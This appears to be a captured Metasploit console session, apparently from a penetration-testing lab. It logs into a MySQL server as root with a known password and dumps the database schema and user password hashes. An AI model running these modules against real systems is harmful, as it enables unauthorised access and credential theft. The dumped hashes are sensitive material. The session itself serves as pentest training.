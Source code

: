 ```
msf5 > use auxiliary/scanner/mysql/mysql_schemadump
msf5 auxiliary(scanner/mysql/mysql_schemadump) > show options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS           192.34.86.3      yes       The target address range or CIDR identifier
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads
   USERNAME                          no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD twinkle
PASSWORD => twinkle
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_schemadump) > run

[+] 192.34.86.3:3306      - Schema stored in: /root/.msf4/loot/20221212034838_default_192.34.86.3_mysql_schema_750926.txt
[+] 192.34.86.3:3306      - MySQL Server Schema 
 Host: 192.34.86.3 
 Port: 3306 
 ====================

---
- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []
- DBName: warehouse
  Tables: []

[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/mysql/mysql_schemadump) > use auxiliary/scanner/mysql/mysql_hashdump
msf5 auxiliary(scanner/mysql/mysql_hashdump) > show options
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD twinkle
PASSWORD => twinkle
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 192.34.86.3:3306      - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.34.86.3:3306      - Saving HashString as Loot: root:
[+] 192.34.86.3:3306      - Saving HashString as Loot: root:
[+] 192.34.86.3:3306      - Saving HashString as Loot: root:
[+] 192.34.86.3:3306      - Saving HashString as Loot: debian-sys-maint:*F4E71A0BE028B3688230B992EEAC70BC598FA723
[+] 192.34.86.3:3306      - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.34.86.3:3306      - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.34.86.3:3306      - Saving HashString as Loot: ultra:*94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29
```